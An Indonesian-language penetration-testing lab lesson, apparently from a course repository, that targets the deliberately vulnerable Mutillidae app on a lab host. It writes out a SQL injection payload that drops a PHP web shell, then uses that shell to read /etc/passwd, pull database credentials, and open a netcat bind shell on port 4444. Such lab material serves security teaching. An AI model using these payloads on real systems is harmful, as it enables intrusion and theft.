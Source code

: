 ## Lesson 10 - SQL Injection Union Exploit \#3

### \# Inject Backdoor di halaman User Info

* **Step 1** : Buka `http://10.151.36.64/mutillidae/` lalu masuk ke halaman user info. Pilih sidebar. OWASP Top 10 --&gt; A1 - SQL Injection --&gt; SQLi - Extract Data --&gt; User Info
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_03_01_34.png)

* **Step 2** : Ubah ukuran text box username menjadi 100% menggunakan inspect element agar text box lebih panjang untuk menuliskan syntax SQL Injection.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_37_43.png)

* **Step 3** : Matikan AppArmor pada Metasploitable OS dengan `sudo /etc/init.d/apparmor stop`
AppArmor dalam OS turunan Ubuntu berfungsi untuk membatasi resource dari aktivitas-aktivitas sistem. Hal ini agar MySQL memiliki akses read/write di directori web app.

* **Step 4** : Membuat Backdoor dengan SQL Union Injection dengan memasukan operasi sql di bawah di dalam textbox **Name** lalu tekan tombol _View Account Details_
```
' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/mutillidae/execute_command.php' -- 
```
Dan jangan lupa untuk menambahkan 1 spasi diakhir, `"-- "`. Operasi ini adalah tidak akan menampilkan hasil, justru Authentication Error. Namun disisi lain akan membuat file **execute_command.php**
![](/assets/lesson-9/injection_result.JPG)


* **Step 5** : Melihat hasil operasi dengan web browser `http://10.151.36.64/mutillidae/execute_command.php` 
![](/assets/lesson-10/backdoor_2.JPG)


### \# Menggunakan Backdoor untuk pengamatan dasar

* **Step 1** : Masukan command linux pada textbox tersebut `whoami; pwd; w`.
**whoami** : melihat username yang digunakan
**pwd** : melihat working directory
**w** : melihar user yang sedang login dan dikerjakan
![](/assets/lesson-10/backdoor_3.JPG)

* **Step 2** : Masukan command linux pada textbox tersebut `cat /etc/passwd` dan `netstat -nao | grep "0.0.0.0:"`.
**cat /etc/passwd** : melihat informasi untuk login, dengan field antara lain Username, Password Existance, User ID, Group ID, Gecos, Home Directory, and Shell
**netstat -nao | grep "0.0.0.0:"** : melihat koneksi port yang sedang berlangsung pada ip 0.0.0.0

![](/assets/lesson-10/backdoor_4.JPG)

Terlihat ada user-user yang potensial untuk diserang seperti user apache, mysql, dll.

![](/assets/lesson-10/backdoor_5.JPG)

Terlihat ada port-port yang biasa digunakan oleh suatu service yang potensial untuk diserang seperti mysql, dll.

### \# Menggunakan Backdoor untuk pengamatan Database

* **Step 1** : Mencari file yang berisi konfigurasi database, dengan execute command `find /var/www/mutillidae | xargs grep -i "dbuser"`.
![](/assets/lesson-10/backdoor_6.JPG)

Terlihat terdapat file `config.inc`, file ini diduga berisi konfigurasi database mysql.

* **Step 2** : Masukan command linux pada textbox tersebut `cat config.inc | grep -v "<?php"`. Hal ini dilakukan untuk melihat file sebab jika kita tidak gunakan `grep` web tidak akan mencetak nya karena file berisi script php
![](/assets/lesson-10/backdoor_7.JPG)

Tercatat :
**host** : localhost atau 0.0.0.0
**user** : root
**password** : (kosong)
**nama database** : owasp10

### \# Menggunakan Backdoor untuk pengamatan Netcat

* **Step 1** : Masukan command linux pada textbox tersebut `which nc; netstat -nao | grep 4444 | wc -l`.
**which nc** : melihat dimana netcat berada
**netstat -nao | grep 4444 | wc -l** : melihat jumlah semua koneksi ke port 4444
![](/assets/lesson-10/backdoor_8.JPG)


* **Step 2** : Masukan command linux pada textbox tersebut `mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe`.
**mkfifo** : proses dapat saling berkomunikasi dilakukan melalui pipes. Pipes dapat dibuat dengan mengunakan perintah ini
**nc -l 4444** : meminta netcat untuk listen & allow connections di port 4444
![](/assets/lesson-10/backdoor_9.JPG)

Terlihat koneksi terus berputar hal ini manandakan port 444 sedang listen atau menunggu adanya koneksi/transfer data

* **Step 3** : Sembari langkah 2 berjalan, masukan command linux pada terminal Kali Linux `nc 10.151.36.64 4444`. Kemudian masukan command cli yang anda inginkan.














